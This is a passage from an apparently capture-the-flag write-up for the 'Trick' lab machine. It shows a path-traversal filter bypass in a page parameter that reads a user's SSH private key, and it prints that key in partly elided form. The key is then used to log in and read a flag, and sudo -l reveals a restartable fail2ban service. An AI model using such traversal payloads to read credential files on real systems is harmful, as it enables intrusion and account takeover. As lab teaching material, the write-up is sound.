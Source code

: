 The only users with a shell are `michael` and `root`. 

Let's see if `michael` has left their SSH private key on the server. We can check by going to *http://preprod-marketing.trick.htb/index.php?page=....//....//....//home/michael/.ssh/id_rsa* and hitting `view source` again. Something like this should come back.

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
[...]
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Now if we copy this and save it onto our machine (I just called it `id_rsa`), we should be able to use it to log in.

First, we have to change the permissions on the key file

```bash
chmod 600 id_rsa
```

Then we can log in

```bash
ssh -i id_rsa micheal@trick.htb
```

From here, running

```bash
cat user.txt
```

gets us our first flag.

## Root
Let's start by running
```bash
sudo -l
```

Results:
```
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

So we now know we can restart the `fail2ban` service. This is interesting.

### Inspecting fail2ban
Let's check out the fail2ban configuration:
```bash
cd /etc/fail2ban
ls -la 
```
